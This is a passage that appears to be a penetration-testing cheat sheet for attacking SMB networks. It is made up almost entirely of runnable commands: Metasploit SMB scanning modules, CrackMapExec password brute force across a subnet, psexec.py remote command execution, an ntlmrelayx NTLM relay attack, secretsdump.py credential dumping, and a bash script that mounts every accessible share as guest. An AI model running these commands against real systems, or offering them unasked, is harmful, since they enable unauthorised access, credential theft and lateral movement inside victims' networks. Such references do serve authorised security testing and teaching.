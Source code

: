 ### Metasploit
```bash
msfconsole

# SMB version detection
use auxiliary/scanner/smb/smb_version
set RHOSTS file:smblist.txt
run

# Share enumeration
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS file:smblist.txt
run

# Null session testing
use auxiliary/scanner/smb/smb_lookupsid
set RHOSTS file:smblist.txt
run
```

### Impacket Tools
```bash
# SMB brute force
crackmapexec smb 192.168.1.0/24 -u users.txt -p passwords.txt

# SMB command execution
psexec.py admin:password@192.168.1.50

# SMB relay attack
ntlmrelayx.py -tf smblist.txt -smb2support

# Secret dump
secretsdump.py admin:password@192.168.1.50
```

### Custom Scripts
```bash
#!/bin/bash
# Auto-mount all accessible shares

# Parse sharelist.txt for accessible shares
while read share; do
    # Extract IP and share name
    ip=$(echo $share | cut -d'\' -f3)
    name=$(echo $share | cut -d'\' -f4)
    
    # Create mount point
    mkdir -p /mnt/${ip}_${name}
    
    # Mount share
    mount -t cifs //${ip}/${name} /mnt/${ip}_${name} -o guest 2>/dev/null
    
    if [ $? -eq 0 ]; then
        echo "[+] Mounted: /mnt/${ip}_${name}"
    fi
done < sharelist.txt
```
